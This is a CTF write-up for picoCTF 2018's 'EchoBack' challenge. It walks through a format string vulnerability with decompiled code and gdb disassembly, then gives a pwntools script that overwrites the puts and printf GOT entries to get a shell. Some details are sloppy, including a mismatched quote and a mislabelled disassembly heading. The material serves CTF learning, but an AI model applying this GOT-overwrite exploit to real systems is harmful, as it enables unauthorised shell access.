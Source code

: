 # Echoback
Hello everyone, after working on the challenges of Pico CTF 2018 for a while, I came across a question called EchoBack, about which there were many solutions, and some of which were very difficult for beginners. I will solve it in the simplest way possible.


**Let's Start**

This program we found seems to have a vulnerability. Can you get a shell and retreive the flag? Connect to it with `nc 2018shell2.picoctf.com 37857`

In this post, I used the echo back file, but you can use it remotely and using NetCat.

```
#include <stdint.h>

int32_t vuln (void) {
    char * format;
    int32_t canary;
    int32_t local_4h;
    eax = *(gs:0x14);
    canary = eax;
    eax = 0;
    edx = &format;
    eax = 0;
    ecx = 0x20;
    edi = edx;
    do {
        *(es:edi) = eax;
        ecx--;
        es:edi += 4;
    } while (ecx != 0);
    system ("echo input your message:", edi);
    eax = &format;
    read (0, eax, 0x7f);
    eax = &format;
    printf (eax);
    puts (0x8048739);
    puts ("Thanks for sending the message!");
    eax = canary;
    eax ^= *(gs:0x14);
    if (? != ?) {
        _stack_chk_fail ();
    }
    edi = local_4h;
    return eax;
}
```
If you are careful in the above code, it takes 0x7f from the user and displays it using PrintF, and also if you are careful,the program uses system from libc which saves us the trouble of leaking the libc base address.

Well, we have two challenges here

1-  we need to overwrite the puts GOT entry in order for the program to loop allowing us to abuse the format string vulnerability more than once.
2-  we need to replace the printf GOT entry with the PLT address of system which will give us a shell. If both steps are executed correctly, we can then retrieve the flag.

**Tips**

we can only write four bytes with no integer overflow because the system GOT entry is right after and we need that


now we need to find puts@got , vuln function address , system@plt and printf@got but how can do it ???

you can use many tools like (radare2 , pwndbg , gdb , pwntools) that i want to use gdb 

```
gdb-peda$ set disassembly-flavor intel
gdb-peda$ b *vuln
Breakpoint 1 at 0x80485ab
gdb-peda$ r

gdb-peda$ disas vuln
Dump of assembler code for function vuln:
=> 0x080485ab <+0>:     push   ebp
   0x080485ac <+1>:     mov    ebp,esp
   0x080485ae <+3>:     push   edi
   0x080485af <+4>:     sub    esp,0x94
   0x080485b5 <+10>:    mov    eax,gs:0x14
   0x080485bb <+16>:    mov    DWORD PTR [ebp-0xc],eax
   0x080485be <+19>:    xor    eax,eax
   0x080485c0 <+21>:    lea    edx,[ebp-0x8c]
   0x080485c6 <+27>:    mov    eax,0x0
   0x080485cb <+32>:    mov    ecx,0x20
   0x080485d0 <+37>:    mov    edi,edx
   0x080485d2 <+39>:    rep stos DWORD PTR es:[edi],eax
   0x080485d4 <+41>:    sub    esp,0xc
   0x080485d7 <+44>:    push   0x8048720 
   0x080485dc <+49>:    call   0x8048460 <system@plt>
   0x080485e1 <+54>:    add    esp,0x10
   0x080485e4 <+57>:    sub    esp,0x4
   ```
  **0x080485e7 <+60>:    push   0x7f**
  ```
   0x080485e9 <+62>:    lea    eax,[ebp-0x8c]
   0x080485ef <+68>:    push   eax
   0x080485f0 <+69>:    push   0x0
   0x080485f2 <+71>:    call   0x8048410 <read@plt>
   0x080485f7 <+76>:    add    esp,0x10
   0x080485fa <+79>:    sub    esp,0xc
   0x080485fd <+82>:    lea    eax,[ebp-0x8c]
   0x08048603 <+88>:    push   eax
   0x08048604 <+89>:    call   0x8048420 <printf@plt>
   0x08048609 <+94>:    add    esp,0x10
   0x0804860c <+97>:    sub    esp,0xc
   0x0804860f <+100>:   push   0x8048739
   0x08048614 <+105>:   call   0x8048450 <puts@plt>
   0x08048619 <+110>:   add    esp,0x10
   0x0804861c <+113>:   sub    esp,0xc
   0x0804861f <+116>:   push   0x804873c
   0x08048624 <+121>:   call   0x8048450 <puts@plt>
   0x08048629 <+126>:   add    esp,0x10
   0x0804862c <+129>:   nop
   0x0804862d <+130>:   mov    eax,DWORD PTR [ebp-0xc]
   0x08048630 <+133>:   xor    eax,DWORD PTR gs:0x14
   0x08048637 <+140>:   je     0x804863e <vuln+147>
   0x08048639 <+142>:   call   0x8048430 <__stack_chk_fail@plt>
   0x0804863e <+147>:   mov    edi,DWORD PTR [ebp-0x4]
   0x08048641 <+150>:   leave  
   0x08048642 <+151>:   ret 
   ```
As described above, the value 0x7f is taken from the user and read using Printf  

Now Let's go to find Others (System@plt , puts@got , printf@got)

**call   0x8048460 <system@plt>** (system@plt)
```
gdb-peda$ disassemble /m 0x8048450 
Dump of assembler code for function puts@plt:
   0x08048450 <+0>:     jmp    DWORD PTR ds: 0x804a01c
   0x08048456 <+6>:     push   0x20
   0x0804845b <+11>:    jmp    0x8048400
End of assembler dump.


gdb-peda$ disassemble /m 0x8048420
Dump of assembler code for function printf@plt:
   0x08048420 <+0>:     jmp    DWORD PTR ds:0x804a010
   0x08048426 <+6>:     push   0x8
   0x0804842b <+11>:    jmp    0x8048400
End of assembler dump.
```

Well now we have everythings 

**system = 0x08048460**

**puts = 0x804a01c**

**printf = 0x804a010**

**vuln = 0x080485e7**

Now let's Start to exploit it 
```
┌──(root💀Amirali)-[~]
└─# touch exploit.py #Added 

from pwn import *

elf = ELF('./echoback')
#sh = remote('2018shell2.picoctf.com', 37857')
sh = process('./echoback')
system = 0x08048460
puts = 0x804a01c
printf = 0x804a010
vuln = 0x080485e7
payload = fmtstr_payload(7, {puts: vuln, printf: system})
sh.sendline(payload)
sh.sendline("/bin/sh")
sh.interactive() 
```
Finish :) 

Thank you for arranging your feedback and suggestions with me before consulting with me !!!

